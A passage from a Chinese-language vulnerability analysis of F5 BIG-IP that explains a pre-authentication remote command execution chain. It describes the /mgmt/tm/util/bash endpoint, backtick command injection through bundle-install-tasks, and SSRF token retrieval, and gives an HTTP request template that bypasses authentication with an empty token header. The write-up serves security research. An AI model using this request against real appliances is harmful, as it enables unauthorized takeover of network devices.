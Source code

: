 根据 4.1 中对处理逻辑的分析，想要找到获取 token 的点的话，只需要在所有的`RestWorker`子类中寻找符合以下两个条件的子类即可：

* 存在`onPost`方法可以处理`POST`请求

* `onPost`方法中可以控制执行流到`RestOperation.complete()`方法

由于 F5 采用了回调的方式完成执行流的构建，最终都会通过回调的逻辑执行`RestRequestCompletion.completed()`方法。

### 4.3 命令执行端点

命令执行端点主要是配合认证绕过最终达成远程 pre auth rce 的效果。

#### 4.3.1 /mgmt/tm/util/bash

从 [F5 BIG IP 官方 sdk][7] 中找到`/mgmt/tm/util/bash`可以直接执行命令：

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ic3Rgfdm96fpuVTc2KRwHdS26c2rGNJYdsWDI7gRPe3bTtZXibcGR3icSEOmzibqnSkLhbeNhCCOlTLGbI80tnI9A/640)

#### 4.3.2 /mgmt/tm/access/bundle-install-tasks

从 diff 中可以看到`/mgmt/tm/access/bundle-install-tasks`直接将可控参数与`tar -xf`拼接，直接执行命令。可以通过反引号直接执行命令。

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ic3Rgfdm96fpuVTc2KRwHdS26c2rGNJYY6ndCP5reB3XHx6TAWnyZxF3VD8woPZuQRGjEElDxoZBm5X4zXvdPQ/640)

0x05   漏洞利用
-----------

### 5.1 认证不完全导致绕过

第一种方法，可以直接构造如下的包，便可以直接执行命令：

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 192.168.59.7
Content-Type: application/json
X-F5-Auth-Token: 
Authorization: Basic YWRtaW46
Content-Length: 52
```

### 5.2 ssrf 获取 token

参考 4.2.3 的总结，寻找相应获取 token 的端点，然后配合`X-F5-Auth-Token`头向命令执行端点发送请求即可。

![](https://mmbiz.qpic.cn/mmbiz_jpg/Ic3Rgfdm96fpuVTc2KRwHdS26c2rGNJYSGSSHBNpMwdFribSicUGxkX0oQ23Mb91Fibp3LzulMY6SM0xeogF6ibl4g/640)![](https://mmbiz.qpic.cn/mmbiz_jpg/Ic3Rgfdm96fpuVTc2KRwHdS26c2rGNJYn8wQeuLNfg0RGCLAI8Pr0z55gDLasesj4qozlquxKHz1BB1FVEdAFg/640)

0x06   Reference
----------------

斗象的研究文章

_https://blog.riskivy.com/f5%e4%bb%8e%e8%ae%a4%e8%af%81%e7%bb%95%e8%bf%87%e5%88%b0%e8%bf%9c%e7%a8%8b%e4%bb%a3%e7%a0%81%e6%89%a7%e8%a1%8c%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90/_

F5 BIG-IP 官方下载链接

_https://downloads.f5.com/esd/productlines.jsp_
